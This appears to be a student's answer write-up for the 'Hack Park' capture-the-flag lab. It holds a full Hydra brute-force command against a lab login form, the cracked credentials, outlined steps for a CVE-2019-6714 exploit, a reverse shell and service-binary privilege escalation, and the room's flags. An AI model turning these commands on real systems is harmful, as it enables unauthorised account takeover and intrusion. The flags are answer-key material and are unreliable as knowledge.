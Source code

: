 Hack Park 
Padsala Tushal 
15 Aug 2022 | 11:41 Am


## Task 1 - Deployment

> Whats the name of the clown displayed on the homepage?
```
Pennywise
```
Google image reverse search

## Task 2- Using Hydra to brute force login

> What request type is the Windows website login form using?
```
post
```

> Guess a username, choose a password wordlist and gain credentials to a user account!
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.39.123 http-form-post '/Account/login.aspx:__VIEWSTATE=wF8jE7RuYKxDBdF7JvnOuQ465WCU8qHQEdc7qO39%2BxkTCvIuMA5IkNdKOJIHqqIPfGk37DsclWWqOFfPkUID3caGd5Dtag%2BlsUXZoBZVZ54%2FVxi1dNnh83%2BqOXQb0cK%2FQgyYgwb%2B%2FHSeSME0Pk3aXvgZ9vKzEdM%2BYeo%2FVhzoJI2xbS%2BT29d3c%2Fvo1XEusqukHE84J0%2FQgTk4MISf1%2FvVW0CuwTdTU58D2SOV1biiUIBAxBDDXhZzmWebU3GW%2BVZSLw01KtI6NME8nPAxsS7xc%2BVh85OZOQdKLm%2BEP1lBc2xZ%2BwqRFw%2FFBwM5bDAlaEKs5dOLBVacd3cjv2C3uzaeZHDSlANuP7jftgoT7jKRvEKOb2Hi&__EVENTVALIDATION=8isXl9F5UUXTB3uTzeF6xSx3VMghZS8647vz7iM8Cj2xlfsIl6fkc7QXHrZE8lNmaBwZOfwyeoLsrBU3%2FRJKJ2gA5Q%2BMZzLtoNbSRFt95I0ivx0CXEomz8Qqy8XZSWL%2F4sb67RzQUtvhUp%2BjAcusnXKiIUYFM%2F2%2FZuUYJmhxxPvXg2GF&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed' -V

```
```
[80][http-post-form] host: 10.10.39.123   login: admin   password: 1qaz2wsx
```

## Task 3 : compromise the machine



Bruteforce -> login -> dashboard -> get version details -> found cve -> exploit via cve(upload,path travsal,..) 

> Now you have logged into the website, are you able to identify the version of the BlogEngine?

```
3.3.6.0
```

> What is the CVE?
```
CVE-2019-6714 
```

> Who is the webserver running as?
```
iis apppool\blog
```

## Task 4 - Privilege Escalation

upload metasploit reverse shell -> execute -> get system details -> found abnormal service -> replace service binary which is runninng as admin with shell -> execute shell


> What is the OS version of this windows machine?
```
Windows 2012 R2 (6.3 Build 9600)
```

> What is the name of the abnormal service running?
```
WindowScheduler
```

> What is the name of the binary you're supposed to exploit? 
```
Message.exe
```
> What is the user flag (on Jeffs Desktop)?
```
759bd8af507517bcfaede78a21a73e39
```

> What is the root flag?
```
7e13d97f05f7ceb9881a3eb3d78d3e72
```


## Task 5 - Privilege Escalation without metasploit

upload WinPeas.exe 

> Using winPeas, what was the Original Install time? (This is date and time)

```
 8/3/2019, 10:43:23 AM
```